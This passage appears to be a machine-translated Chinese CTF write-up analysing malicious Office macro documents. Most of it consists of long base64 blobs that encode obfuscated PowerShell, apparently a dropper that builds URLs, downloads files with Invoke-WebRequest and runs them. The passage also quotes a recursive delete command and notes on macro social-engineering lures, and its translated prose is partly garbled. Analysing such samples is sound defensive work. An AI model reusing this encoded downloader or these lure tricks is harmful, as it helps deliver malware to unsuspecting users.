QUhvQVlRQmxBRkVBWkFCNEFIb0FiUUJ4QURNQVRnQmhBRHNBSkFCakFESUFWZ0JKQUZRQWR3QjZBQ0FBUFFBZ0FDUUFRUUE1QUZNQVNBQXlBSFVBVUFCbEFGb0FJQUFyQUNBQUpBQmhBSFlBUndBMEFHVUFPd0FrQUVZQVpRQllBRU1BVndCT0FEWUFSUUJ4QUVNQUlBQTlBQ0FBS0FBb0FDUUFTQUJQQUUwQVJRQWdBQ3NBS0FBaUFGRUFTUUJ0QUdzQWF3QkhBR1VBWndCWUFGWUFXQUJCQUVrQWJBQnhBRU1BVlFCS0FHOEFVd0JRQUhFQVF3QnBBRWtBYkFCeEFFTUFjUUJzQUU0QU9BQk1BRU1BZFFBNEFFa0FiQUJ4QUVNQU9BQlJBR29BVUFCWEFHOEFNQUEyQUVrQWJBQnhBRU1BSWdCYkFDMEFNUUF1QUM0QUxRQTFBRElBWFFBZ0FDMEFhZ0J2QUdrQWJnQWdBQ2NBSndBcEFDQUFLUUF1QUhJQVpRQndBR3dBWVFCakFHVUFLQUFnQUNJQVF3QnhBR3dBU1FBaUFDd0FXd0J6QUhRQWNnQnBBRzRBWndCZEFGc0FZd0JvQUdFQWNnQmRBRGtBTWdBcEFDa0FPd0FrQUZNQVdRQklBRUVBZWdCa0FEMEFKQUJHQUdVQVdBQkRBRmNBVGdBMkFFVUFjUUJEQUNzQUp3QXVBSFFBZUFCMEFDY0FPd0FrQUdZQVpnQkJBRklBTWdCaUFIRUFRZ0I2QUdFQVpRQmhBR0lBVXdCSkFERUFhd0JtQUQwQUtBQWlBCkdZQWFBQm9BRHNBSVFCd0FHTUFad0IyQUhRQVpBQjFBR1lBU2dCMUFGVUFhZ0J0QUZvQWNBQjJBRTRBYkFCbUFFb0FkUUFpQUNrQUxnQnlBR1VBY0FCc0FHRUFZd0JsQUNnQUpBQktBR3NBYUFCeEFHSUFMQUFrQUVRQVdRQlZBRVFBVndCRkFIRUFkUUJpQUNrQU93QWtBRVFBZGdCa0FEZ0FOd0JxQUZnQVBRQWtBRk1BV1FCSUFFRUFlZ0JrQURzQVpnQnZBSElBWlFCaEFHTUFhQUFnQUNnQUpBQkNBRFlBT0FBekFGa0FJQUJwQUc0QUlBQmJBR01BYUFCaEFISUFXd0JkQUYwQUpBQm1BR1lBUVFCU0FESUFZZ0J4QUVJQWVnQmhBR1VBWVFCaUFGTUFTUUF4QUdzQVpnQXBBSHNBSkFCcUFFd0FOd0JJQUVZQU5RQmFBREFBUFFBa0FHb0FUQUEzQUVnQVJnQTFBRm9BTUFBckFDZ0FXd0JqQUdnQVlRQnlBRjBBS0FCYkFHa0FiZ0IwQUYwQVd3QmpBR2dBWVFCeUFGMEFKQUJDQURZQU9BQXpBRmtBSUFBdEFDQUFNUUFnQUNrQUtRQWdBSDBBT3dBa0FHRUFOZ0JVQUhvQVRBQTlBQ1FBV1FBMkFEY0FRUUJ6QUNzQUpBQlRBRmtBU0FCQkFIb0FaQUFyQUNRQVJBQjJBR1FBT0FBM0FHb0FXQUE3QUNRQVF3QjBBRElBTVFCREFEMEFKQUJFQUhZQVpBQTRBRGNBYWdCWUFEc0FKQUJNQUc0QVlnQlBBR0VBVFFCckFGa0FVZ0FnQUQwQUlBQWtBSEVBVEFCdEFHNEFOQUEwQUUwQVN3QWdBQ3NBSUFBa0FGb0FWQUIyQUhZQWF3QldBR3dBTUFBN0FDUUFXZ0JCQUVvQVR3QnRBRTRBTmdCUkFHTUFTUUFnQUQwQUlBQWtBRVlBWlFCWUFFTUFWd0JPQURZQVJRQnhBRU1BS3dBaUFEWUFMZ0JxQUhBQVp3QWlBRHNBSkFCdEFHTUFaZ0I2QUhBQVFRQm9BR0lBWlFBeEFFSUFJQUE5QUNBQUpBQlVBR29BYkFCSUFHZ0FWZ0JMQUdvQVNRQWdBQ3NBSUFBa0FIRUFOQUI0QUVNQVp3QTJBRllBWmdCREFEc0FhUUJtQUNnQVZBQmxBSE1BZEFBdEFFTUFid0J1QUc0QVpRQmpBSFFBYVFCdkFHNEFJQUF0QUZFQWRRQnBBR1VBZEFBZ0FDUUFkQUJEQUdzQVRnQnFBRFFBZGdBcEFDQUFld0FrQURBQU9nQTZBQ0lBWXdCeUFHVUFZUUIwQUdVQVpBQnBBSElBWlFCagpBSFFBYndCeUFIa0FJZ0FvQUNBQUpBQkdBR1VBV0FCREFGY0FUZ0EyQUVVQWNRQkRBQ2tBT3dCMEFISUFlUUI3QUdZQWJ3QnlBR1VBWVFCakFHZ0FJQUFvQUNRQVl3Qm1BRFFBVndCS0FGb0FlUUJsQUNBQWFRQnVBQ0FBSkFCbUFHWUFRUUJTQURJQVlnQnhBQzRBY2dCbEFIQUFiQUJoQUdNQVpRQW9BQ2NBWndCeUFHRUFiUUJ0QUdFQWNnQnNBSGtBSndBc0FDY0FMZ0JsQUhnQVpRQW5BQ2tBTGdCekFIQUFiQUJwQUhRQUtBQmJBR01BYUFCaEFISUFYUUEyQURRQUtRQXVBSE1BY0FCc0FHa0FkQUFvQUZzQVl3Qm9BR0VBY2dCZEFERUFNZ0EwQUNrQUxnQnlBR1VBY0FCc0FHRUFZd0JsQUNnQUpBQmpBR1lBTkFCWEFFb0FXZ0I1QUdVQVpRQkxBRFVBYmdCcEFGWUFhZ0JqQUZJQUxBQWtBRzhBY3dCYUFGb0FRd0IwQUdVQWRnQnNBQ2tBS1FCN0FHa0FaZ0FvQUNRQVp3QnVBSElBWlFCcUFHWUFiZ0JxQUd3QWF3QmxBRG9BT2dCRkFIZ0FhUUJ6QUhRQWN3QW9BQ1FBV2dCQkFFb0FUd0J0QUU0QU5nQlJBR01BU1FBcEFDa0Fld0JpQUhJQVpRQmhBR3NBZlFCSkFHNEFkZ0J2QUdzQVpRQXRBRmNBWlFCaUFGSUFaUUJ4QUhVQVpRQnpBSFFBSUFBdEFGVUFjZ0JwQUNBQUpBQmpBR1lBTkFCWEFFb0FXZ0I1QUdVQUlBQXRBRThBZFFCMEFFWUFhUUJzQUdVQUlBQWtBRm9BUVFCS0FFOEFiUUJPQURZQVVRQmpBRWtBZlFCekFIUUFZUUJ5QUhRQUlBQWtBRm9BUVFCS0FFOEFiUUJPQURZQVVRQmpBRWtBT3dCT0FHVUFkd0F0QUVrQWRBQmxBRzBBSUFBa0FFTUFkQUF5QURFQVF3QTdBRk1BWlFCMEFDMEFRd0J2QUc0QWRBQmxBRzRBZEFBZ0FDUUFSQUIyQUdRQU9BQTNBR29BV0FBZ0FDUUFhZ0JNQURjQVNBQkdBRFVBV2dBd0FEc0FVd0IwQUdFQWNnQjBBQzBBVXdCc0FHVUFaUUJ3QUNBQUxRQnpBQ0FBTVFBN0FGSUFaUUJ0QUc4QWRnQmxBQzBBYVFCMEFHVUFiUUFnQUMwQWNnQmxBR01BZFFCeUFITUFaUUFnQUMwQWNBQmhBSFFBYUFBZ0FDQUFLQUFrQUVnQWJ3QnRBR1VBS3dBaUFGd0FJZ0FyQUNRQVJnQmxBRmdBUXdCWEFFNEFOZ0IKRkFIRUFRd0F1QUhJQVpRQndBR3dBWVFCakFHVUFLQUFrQUVnQWJ3QnRBR1VBS3dBaUFGd0FJZ0FzQUNRQVpnQm1BRUVBVWdBeUFHSUFjUUJDQUhvQVlRQmxBQ2tBTGdCekFIQUFiQUJwQUhRQUtBQmJBSE1BZEFCeUFHa0FiZ0JuQUYwQVd3QmpBR2dBWVFCeUFGMEFPUUF5QUNrQVd3QXdBRjBBS1FBN0FIMEFZd0JoQUhRQVl3Qm9BSHNBWXdCc0FHVUFZUUJ5QUMwQWFBQnBBSE1BZEFCdkFISUFlUUE3QUdVQVl3Qm9BRzhBSUFBaUFFUUFid0FnQUc4QWNnQWdBR1FBYndBZ0FHNEFid0IwQUN3QUlBQjBBR2dBWlFCeUFHVUFJQUJwQUhNQUlBQnVBRzhBSUFCMEFISUFlUUF1QUNJQWZRQTdBR01BYkFCbEFHRUFjZ0F0QUdnQWFRQnpBSFFBYndCeUFIa0FPd0I5QUdVQWJBQnpBR1VBZXdCQkFHUUFaQUF0QUZRQWVRQndBR1VBSUFBdEFFRUFjd0J6QUdVQWJRQmlBR3dBZVFCT0FHRUFiUUJsQUNBQUp3QlFBSElBWlFCekFHVUFiZ0IwQUdFQWRBQnBBRzhBYmdCR0FISUFZUUJ0QUdVQWR3QnZBSElBYXdBbkFEc0FXd0JUQUhrQWN3QjBBR1VBYlFBdUFGY0FhUUJ1QUdRQWJ3QjNBSE1BTGdCTkFHVUFjd0J6QUdFQVp3QmxBRUlBYndCNEFGMEFPZ0E2QUZNQWFBQnZBSGNBS0FBaUFFNEFid0FnQUdrQWJnQjBBR1VBY2dCdUFHb0FaUUIwQUhNQVB3QWlBQ2tBT3dCakFHd0FaUUJoQUhJQUxRQm9BR2tBY3dCMEFHOEFjZ0I1QURzQWZRQWtBSGtBVGdCeEFFa0FSd0JFQUVVQVp3QTRBQ0FBUFFBZ0FDUUFWd0IyQUU0QVlRQklBRmdBVkFCMkFGY0FaUUIxQURRQUlBQXJBQ0FBSkFCUEFIRUFZd0EwQUZVQWFnQlFBSE1BT3dBa0FIY0FTZ0E0QUdjQVJBQkJBRXdBSUFBOUFDQUFKQUJ0QURJQVpRQnhBRU1BUXdCUEFHNEFSd0FnQUNzQUlBQWtBRzBBUWdCMUFFMEFOQUJpQURzQQoK) 中的代码，得到了这个:

几乎相同的任务，但这一次脚本创建一个文件夹与一些文件，然后 delte 它。如果我们移除这部分:

```
Remove-item -recurse -path ($Home+”\”+$FeXCWN6EqC.replace($Home+”\”,$ffAR2bqBzae).split([string][char]92)[0]);
```

并运行脚本，我们可以访问文件夹，看看它试图 delte 的文件。



文件夹内容—按作者

在其中一个文件中，我们找到了 EGG:**EGG { obfuscteItTilYouMkeIt }**

## 丹尼埃尔甘斯克习俗

```
Skadelige vedlegg benytter i all hovedsak enten exploits, eller makroer for å få kjørt payloaden sin. Det vanligste her er makroer da disse offisielt er en “feature”, ikke en sårbarhet. For å få kjørt makroen kreves det at bruker godtar kjøring av makroer, og dokumentene har som regel noen social-engineeringtriks for å lure brukeren til å gjøre dette. F.eks. dokumenttittel som “lønnsjustering”, eller et bilde inni om at makroer må aktiveres for at innholdet skal vises riktig.
```



Maldoc 的屏幕打印—作者

和前两次一样。打开文档找到宏，调试运行它。寻找创造的价值，因为这是在电脑上创造某种实体的最有可能的方式。



宏调试的输出—按作者

我像以前一样解密了 [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Decode_text('Europa%203%20(29001)')&input=SkFCcUFFWUFjUUJVQUc4QVdBQjFBSGtBVFFBZ0FEMEFJQUFrQUhNQVZ3QXlBR3NBVkFBMUFFRUFaUUFnQUNzQUlBQWtBREFBZEFCYUFFWUFNZ0JHQUhZQWJnQnFBSEFBT3dBa0FIUUFRd0JyQUU0QWFnQTBBSFlBSUFBOUFDQUFLQUFuQURFQWFBQnVBSElBWlFCMUFHa0FaQUJ1QUdJQVp3QnFBREVBYUFCdUFISUFaUUIxQUdrQVpBQnVBR0lBWndCcUFERUFhQUJ1QUhJQVpRQjFBR2tBWkFCdUFHSUFad0JxQURFQUp3QXBBQzRBY2dCbEFIQUFiQUJoQUdNQVpRQW9BQ0lBYUFCdUFISUFaUUIxQUdrQVpBQnVBR0lBWndCcUFDSUFMQUFpQUM0QUlnQXBBQzRBY2dCbEFIQUFiQUJoQUdNQVpRQW9BRnNBY3dCMEFISUFhUUJ1QUdjQVhRQmJBR01BYUFCaEFISUFYUUEyQURFQUxBQWlBSElBYndCbUFHd0Fid0F1QUdNQWJ3QnRBQ0lBS1FBN0FDUUFSZ0JsQUZnQVF3QlhBRTRBTmdCRkFIRUFRd0JxQUhnQWJnQm1BR0VBZVFCU0FDQUFQUUFnQUNRQVdnQkJBRW9BVHdCdEFFNEFOZ0JSQUdNQVNRQkRBRWNBTWdCWkFIb0FJQUFyQUNBQUpBQm1BR1lBUVFCU0FESUFZZ0J4QUZZQWRRQkJBRFFBT3dBa0FFb0FUZ0J6QUhRQU13QTVBR3NBZGdCd0FFNEFJQUE5QUNBQUpBQmhBRFlBU2dCWEFEUUFXQUJRQURjQVJRQWdBQ3NBSUFBa0FIa0FkUUJOQURrQU9RQkRBRmNBT3dCekFGWUFJQUFnQUNnQUp3QXdBQ2NBS1FBZ0FDZ0FXd0IwQUhrQVVBQmxBRjBBS0FBaUFIc0FOQUI5QUhzQU1nQjlBSHNBTVFCOUFIc0FNQUI5QUhzQU13QjlBQ0lBSUFBdEFHWUFJQUFuQUdNQVZBQnZBQ2NBTEFBbkFFOEFMZ0JFQUVrQWNnQmxBQ2NBTEFBbkFFVUFiUUF1QUVrQUp3QXNBQ2NBVWdCNUFDY0FMQUFuQUZNQWVRQnpBRlFBSndBcEFDa0FPd0FrQUZRQWNRQlNBRGNBVmdCcUFDQUFQUUFnQUNRQVlnQXpBRTRBTmdBd0FDQUFLd0FnQUNRQVVBQkJBRzBBUWdBMUFEc0FKQUJtQUdZQVFRQlNBRElBWWdCeEFDQUFQUUFnQUNnQUtBQW5BR2dBZEFBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW4KQUNjQUt3QW5BSFFBY0FCekFEb0FjUUJmQUhnQVBRQnhBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BQ2NBS3dBbkFHOEFWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FjUUJmQUhnQVBRQnhBR2dBWlFBbkFDc0FKd0JzQUhNQUp3QXJBQ2dBSndCTUFDY0FLd0FuQUdrQWRBQXBBQ2dBYndCVUFIUUFKd0FwQUNzQUp3QmxBR01BSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBSndBckFDY0Fid0JVQUhRQUp3QXBBQ3NBSndCMEFDY0FLd0FuQUdZQUxnQnVBRzhBSndBckFDZ0FKd0FuQUNzQUp3Qk1BR2tBZEFBcEFDZ0Fid0FuQUNzQUp3QlVBSFFBSndBcEFDc0FKd0J4QUY4QWVBQTlBSEVBWWdBbkFDc0FLQUFuQUV3QUp3QXJBQ2NBYVFCMEFDa0FLQUJ2QUNjQUt3QW5BRlFBZEFBbkFDa0FLd0FuQUdrQUp3QXJBQ2NBYkFCa0FDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBWlFCeUFDY0FLd0FvQUNjQVRBQW5BQ3NBSndCcEFIUUFLUUFvQUc4QUp3QXJBQ2NBVkFCMEFDY0FLUUFyQUNjQWNRQmZBSGdBUFFCeEFERUFKd0FyQUNnQUp3Qk1BQ2NBS3dBbkFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QmZBRFFBWVFBbkFDc0FKd0JsQURBQU9BQmxBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQU53QW5BQ3NBSndBMEFEQUFNd0JqQUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBS1FBckFDY0FZZ0EzQURFQUp3QXJBQ2NBTUFBeEFDY0FLd0FvQUNjQUp3QXJBQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBS1FBckFDY0FKd0FyQUNjQU1nQm1BQ2NBS3dBb0FDY0FUQUFuQUNzQUp3QnBBSFFBS1FBb0FHOEFKd0FyQUNjQVZBQjBBQ2NBS1FBckFDY0FOd0EwQUNjQUt3QW5BREFBT0FCa0FDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FDY0FLd0FuQUc4QVZBQjBBQ2NBS1FBckFDY0FOZ0FuQUNzQUp3QmpBR1FBTVFCbUFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBWkFBbkFDc0FKd0F5QURFQUp3QXJBQ2NBT1FBCnVBR29BSndBckFDZ0FKd0FuQUNzQUp3Qk1BR2tBZEFBcEFDZ0FKd0FyQUNjQWJ3QlVBSFFBSndBcEFDc0FKd0J3QUNjQUt3QW9BQ2NBSndBckFDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQVp3QW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BRUFBSndBckFDY0FhQUIwQUhRQUp3QXJBQ2NBY0FCekFEb0FKd0FyQUNnQUp3QW5BQ3NBSndCTUFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QnhBRjhBZUFBOUFIRUFKd0FyQUNnQUp3QW5BQ3NBSndCTUFHa0FkQUFwQUNnQWJ3QlVBSFFBSndBcEFDc0FKd0FuQUNzQUp3QnhBRjhBZUFBOUFIRUFhQUJsQUd3QUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QnpBR1VBSndBckFDY0FZd0IwQUNjQUt3QW9BQ2NBSndBckFDY0FUQUJwQUhRQUtRQW9BRzhBSndBckFDY0FWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FaZ0F1QUc0QUp3QXJBQ2dBSndCTUFDY0FLd0FuQUdrQWRBQXBBQ2dBYndBbkFDc0FKd0JVQUhRQUp3QXBBQ3NBSndCdkFDY0FLd0FuQUhFQVh3QjRBRDBBY1FCaUFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFKd0FyQUNjQVZBQjBBQ2NBS1FBckFDY0FhUUJzQUNjQUt3QW9BQ2NBSndBckFDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQUp3QXJBQ2NBWkFCbEFISUFKd0FyQUNjQWNRQmZBSGdBUFFCeEFESUFYd0ExQUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUNjQUt3QW5BRzhBVkFCMEFDY0FLUUFyQUNjQVpRQTNBQ2NBS3dBbkFHVUFOZ0F3QURFQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QlVBSFFBSndBcEFDc0FKd0EzQUdZQUp3QXJBQ2NBWXdCbUFEa0FZd0FuQUNzQUtBQW5BRXdBSndBckFDY0FhUUIwQUNrQUtBQW5BQ3NBSndCdkFGUUFkQUFuQUNrQUt3QW5BRGtBWWdBbkFDc0FLQUFuQUNjQUt3QW5BRXdBYVFCMEFDa0FLQUFuQUNzQUp3QnZBRlFBZEFBbkFDa0FLd0FuQUdNQUp3QXJBQ2NBTUFBNEFESUFaQQpBbkFDc0FLQUFuQUV3QUp3QXJBQ2NBYVFCMEFDa0FLQUJ2QUNjQUt3QW5BRlFBZEFBbkFDa0FLd0FuQUNjQUt3QW5BRFlBTUFBekFETUFKd0FyQUNjQU5nQXdBRE1BSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBYndBbkFDc0FKd0JVQUhRQUp3QXBBQ3NBSndBbkFDc0FKd0EzQUdNQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QlVBSFFBSndBcEFDc0FKd0FuQUNzQUp3QXdBR01BT0FBdUFHb0FKd0FyQUNnQUp3Qk1BQ2NBS3dBbkFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QndBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQVp3QkFBQ2NBS3dBbkFHZ0FkQUFuQUNzQUp3QjBBSEFBY3dBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BRG9BSndBckFDY0FjUUJmQUhnQVBRQnhBSEVBWHdCNEFEMEFjUUJvQUdVQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QnNBSE1BSndBckFDY0FaUUJqQUhRQVpnQW5BQ3NBS0FBbkFFd0FhUUIwQUNrQUtBQW5BQ3NBSndCdkFGUUFkQUFuQUNrQUt3QW5BQ2NBS3dBbkFDNEFiZ0J2QUhFQVh3QjRBRDBBY1FBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BR0lBSndBckFDY0FhUUJzQUdRQUp3QXJBQ2NBWlFCeUFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFKd0FyQUNjQVZBQjBBQ2NBS1FBckFDY0FjUUJmQUhnQVBRQnhBRE1BWHdBbkFDc0FKd0EwQUdJQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QTBBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BRzhBSndBckFDY0FWQUIwQUNjQUtRQXJBQ2NBTWdBbkFDc0FLQUFuQUV3QUp3QXJBQ2NBYVFCMEFDa0FLQUFuQUNzQUp3QnZBRlFBZEFBbkFDa0FLd0FuQUNjQUt3QW5BR1FBTndBMkFDY0FLd0FvQUNjQVRBQW5BQ3NBSndCcEFIUUFLUUFvQUc4QUp3QXJBQ2NBVkFCMEFDY0FLUUFyQUNjQU13Qm1BQ2NBS3dBb0FDY0FUQUJwQUhRQUsKUUFvQUNjQUt3QW5BRzhBVkFCMEFDY0FLUUFyQUNjQU9BQmpBQ2NBS3dBbkFHSUFOZ0JrQUdVQUp3QXJBQ2dBSndCTUFDY0FLd0FuQUdrQWRBQXBBQ2dBSndBckFDY0Fid0JVQUhRQUp3QXBBQ3NBSndBbkFDc0FKd0JsQURrQU5RQW5BQ3NBS0FBbkFFd0FhUUIwQUNrQUtBQnZBQ2NBS3dBbkFGUUFkQUFuQUNrQUt3QW5BRFVBSndBckFDY0FNZ0F4QUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUNjQUt3QW5BRzhBVkFCMEFDY0FLUUFyQUNjQVpRQW5BQ3NBSndCa0FHWUFKd0FyQUNjQU5RQTNBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BQ2NBS3dBbkFHOEFWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FPQUJtQUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBS1FBckFDY0FKd0FyQUNjQU9RQXdBR0VBSndBckFDY0FNZ0F1QUdvQWNBQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FBbkFDc0FKd0J2QUZRQWRBQW5BQ2tBS3dBbkFDY0FLd0FuQUdjQVFBQm9BQ2NBS3dBb0FDY0FKd0FyQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBZEFCMEFDY0FLd0FuQUhBQWN3QW5BQ3NBS0FBbkFDY0FLd0FuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BRG9BY1FCZkFIZ0FQUUJ4QUNjQUt3QW5BSEVBWHdCNEFEMEFjUUJvQUdVQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QnNBQ2NBS3dBb0FDY0FUQUJwQUhRQUtRQW9BRzhBVkFCMEFDY0FLUUFyQUNjQUp3QXJBQ2NBY3dCbEFHTUFkQUJtQUNjQUt3QW9BQ2NBVEFBbkFDc0FKd0JwQUhRQUtRQW9BRzhBSndBckFDY0FWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FMZ0J1QUc4QWNRQmZBSGdBUFFCeEFDY0FLd0FuQUdJQWFRQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BR3dBWkFBbkFDc0FKd0JsQUhJQWNRQmZBSGdBUFFCeEFEUUFKd0FyQUNnQUp3Qk1BR2tBZEFBcEFDZ0Fid0FuQUNzQUp3QlVBSFFBSndBcEFDc0FKd0FuQUNzQUp3QmZBR1lBCkp3QXJBQ2dBSndCTUFDY0FLd0FuQUdrQWRBQXBBQ2dBYndBbkFDc0FKd0JVQUhRQUp3QXBBQ3NBSndBNEFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBSndBckFDY0FNd0JsQURBQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QmtBQ2NBS3dBbkFESUFPQUFuQUNzQUp3QTNBRFFBTkFBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFDY0FLd0FuQUZRQWRBQW5BQ2tBS3dBbkFHWUFKd0FyQUNjQU53QmhBR1VBSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBYndBbkFDc0FKd0JVQUhRQUp3QXBBQ3NBSndCbUFEWUFaQUJpQUNjQUt3QW9BQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBS1FBckFDY0FKd0FyQUNjQVpRQXdBR1lBSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBYndCVUFIUUFKd0FwQUNzQUp3QW5BQ3NBSndBd0FEUUFKd0FyQUNnQUp3Qk1BQ2NBS3dBbkFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3QmxBREFBSndBckFDY0FNZ0JsQUdVQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQUp3QXJBQ2NBYndCVUFIUUFKd0FwQUNzQUp3Qm1BQ2NBS3dBbkFEa0FaUUFuQUNzQUp3QXVBR29BY0FBbkFDc0FLQUFuQUNjQUt3QW5BRXdBYVFCMEFDa0FLQUFuQUNzQUp3QnZBRlFBZEFBbkFDa0FLd0FuQUNjQUt3QW5BR2NBUUFBbkFDc0FLQUFuQUV3QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BR2dBSndBckFDY0FkQUIwQUhBQUp3QXJBQ2NBY3dBNkFIRUFYd0I0QUQwQWNRQW5BQ3NBS0FBbkFFd0FKd0FyQUNj